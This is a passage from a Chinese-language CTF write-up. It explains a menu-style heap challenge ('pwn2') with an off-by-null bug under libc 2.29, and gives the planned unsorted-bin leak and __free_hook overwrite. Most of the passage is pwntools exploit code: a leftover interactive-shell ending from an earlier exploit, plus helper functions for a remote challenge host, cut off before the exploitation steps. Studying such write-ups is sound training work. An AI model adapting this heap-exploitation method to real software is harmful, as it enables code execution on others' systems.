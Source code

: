 ```py
    Delete(0)

    p.recvuntil('> ')
    p.sendline('1')

    p.interactive()

exp()
```

### pwn2

#### 程序逻辑

一道典型的菜单题，漏洞在于Edit的off-by-null，libc是2.29，断网环境+不熟悉导致开局就先放弃了这个，后面研究了一下2.29的新保护机制发现这个根本用不上那些。

程序有add、delete、edit、show。直接用Off-by-one释放一个大的块作为Ub，泄露地址之后往一个0x240的块fd写free_hook即可。

#### exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
debug = 1
elf = ELF('./pwn2')
libc_offset = 0x3c4b20
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
if debug:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process('./pwn2')

else:
    libc = ELF('./x64_libc.so.6')
    p = remote('f.buuoj.cn',20173)

def Add(idx,size,content):
    p.recvuntil('> ')
    p.sendline('1')
    p.recvuntil("idx:")
    p.sendline(str(idx))
    p.recvuntil("size:")
    p.sendline(str(size))
    p.recvuntil("cnt:")
    p.send(content)

def Delete(idx):
    p.recvuntil('> ')
    p.sendline('2')
    p.recvuntil('idx:')
    p.sendline(str(idx))

def Edit(idx,content):
    p.recvuntil('> ')
    p.sendline('3')
    p.recvuntil('idx: ')
    p.sendline(str(idx))
    p.recvuntil("cnt:")
    p.send(content)

def Show(idx):
    p.recvuntil('> ')
    p.sendline('4')
```